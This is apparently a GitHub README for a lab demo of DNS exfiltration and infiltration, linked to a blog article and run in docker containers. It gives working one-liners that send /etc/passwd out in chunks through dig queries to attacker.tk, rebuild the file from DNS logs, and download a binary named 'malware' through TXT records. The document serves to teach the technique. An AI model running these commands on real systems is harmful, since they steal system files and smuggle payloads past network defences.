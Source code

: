# DNS infiltration and exfiltration demo
This repository contains codes and examples used for this [article](https://floatingpoint.sorint.it/blog/post/introduction-to-dns-exfiltration-and-infiltration).
## Screeshots
![screenshot](/assets/screenshot.jpg)
## Requirements
- docker
- docker-compose
## Usage
Create three containers and two networks:
```
$ docker-compose up -d

```
Open three different terminals and connect to each container:
```
docker exec -ti acme-server sh
docker exec -ti acme-dns sh
docker exec -ti attacker-dns sh

```
or if you have `tmux` installed just run this script to get a layout similar to the screenshot above:
```
tmux-setup.sh
```

## Examples
Send a file through DNS queries:
```
gzip -c /etc/passwd | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "dig +short c"n"."$1".attacker.tk"; n++}' | sh
```
Reassemble file from query log file:
```
grep -E "query\[A\] c\d{3}\." /var/log/dnsmasq.log | awk '{print $6}' | sort -u | cut -d "." -f2 | base64 -d | gunzip -d > mynewfile
```
Create TXT record from "sl" binary:
```
gzip -c /usr/bin/sl | base64 -w0 | fold -w63 | awk 'BEGIN {n = 100} {print "txt-record=c"n".attacker.tk,"$1; n++}'
```
Get a binary quering TXT records:
```
for n in $(seq 100 222);do echo "dig txt +short c$n.attacker.tk" ;done | sh | tr -d '"' | base64 -d | gzip -d > malware
```